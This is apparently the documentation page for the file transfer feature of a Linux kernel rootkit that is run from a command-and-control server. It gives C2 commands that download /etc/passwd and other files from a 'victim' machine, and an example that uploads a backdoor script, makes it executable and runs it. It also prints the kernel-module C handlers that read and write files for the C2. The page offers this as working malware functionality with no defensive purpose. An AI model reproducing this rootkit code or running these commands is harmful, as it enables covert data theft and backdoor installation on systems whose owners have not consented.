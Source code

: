 ```yaml
---
title: "File Transfer"
description: "Upload and download files between C2 server and victim system"
icon: "download"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 52
---
```


# File Transfer

Transfer files between the C2 server and victim system using direct content transmission.

## How It Works

### Upload Process
1. **C2 reads local file** and sends content
2. **Rootkit receives** filename and content
3. **Creates file** on victim system using `filp_open()`
4. **Writes content** using `kernel_write()`

### Download Process
1. **C2 requests file** by path
2. **Rootkit opens file** using `filp_open()`
3. **Reads content** using `kernel_read()`
4. **Sends content** back to C2 server

## Upload Feature

### Basic Usage
```bash
# Upload file to specific path
c2-server$ upload Client-1 ./config.txt /etc/myapp/config.txt
# ✓ File uploaded successfully (1024 bytes)

# Upload to current directory (uses basename)
c2-server$ upload Client-1 ./script.sh
# ✓ File uploaded successfully (512 bytes) -> ./script.sh
```


### Implementation Details
- **File creation**: Uses `O_WRONLY | O_CREAT | O_TRUNC` flags
- **Permissions**: Files created with 0644 permissions
- **Size limits**: 10MB maximum file size

## Download Feature

### Basic Usage
```bash
# Download to specific local path
c2-server$ download Client-1 /etc/passwd ./victim_passwd
# ✓ File downloaded successfully (2048 bytes)

# Download to current directory (uses basename)
c2-server$ download Client-1 /etc/hostname
# ✓ File downloaded successfully (64 bytes) -> ./hostname
```


## Real Examples

### System Files
```bash
# Download system configuration
c2-server$ download Client-1 /etc/passwd
# ✓ File downloaded successfully (2048 bytes)
# Content: root:x:0:0:root:/root:/bin/bash
#          daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
#          ...

# Download network configuration
c2-server$ download Client-1 /etc/hosts
# ✓ File downloaded successfully (256 bytes)
# Content: 127.0.0.1	localhost
#          127.0.1.1	victim
#          ...
```


### Upload Scripts
```bash
# Upload a shell script
c2-server$ upload Client-1 ./backdoor.sh /tmp/backdoor.sh
# ✓ File uploaded successfully (1024 bytes)

# Make it executable (via exec command)
c2-server$ exec Client-1 chmod +x /tmp/backdoor.sh
# Exit code: 0

# Run the script
c2-server$ exec Client-1 /tmp/backdoor.sh
# Exit code: 0
# Output: Backdoor installed successfully
```


## Technical Implementation

### Upload Handler
```c
static int handle_upload(const char *data)
{
    char *filename, *file_content, *separator;
    struct file *file;
    loff_t pos = 0;
    ssize_t bytes_written;
    
    // Parse filename:content format
    separator = strchr(data, ':');
    *separator = '\0';
    filename = data;
    file_content = separator + 1;
    
    // Validate filename
    if (!validate_filename(filename))
        return send_error("Invalid or unsafe filename");
    
    // Create and write file
    file = filp_open(filename, O_WRONLY | O_CREAT | O_TRUNC, 0644);
    bytes_written = kernel_write(file, file_content, content_length, &pos);
    filp_close(file, NULL);
    
    return send_success("File uploaded successfully");
}
```

### Download Handler
```c
static int handle_download(const char *data)
{
    struct file *file;
    loff_t file_size, pos = 0;
    char *file_content, *result_buffer;
    ssize_t bytes_read;
    
    // Open file
    file = filp_open(data, O_RDONLY, 0);
    if (IS_ERR(file))
        return send_error("File not found or cannot be opened");
    
    // Check file size
    file_size = i_size_read(file_inode(file));
    if (file_size > MAX_FILE_SIZE) {
        filp_close(file, NULL);
        return send_error("File too large to download");
    }
    
    // Read file content
    file_content = vmalloc(file_size + 1);
    bytes_read = kernel_read(file, file_content, file_size, &pos);
    file_content[bytes_read] = '\0';
    
    // Format response
    result_buffer = vmalloc(file_size + 32);
    snprintf(result_buffer, file_size + 32, "DOWNLOAD:%s", file_content);
    
    return send_result(result_buffer);
}
```

## Configuration

```c
// rootkit/core/config.h
#define MAX_FILE_SIZE (10 * 1024 * 1024)  // 10MB
#define MAX_FILENAME_LENGTH 255
```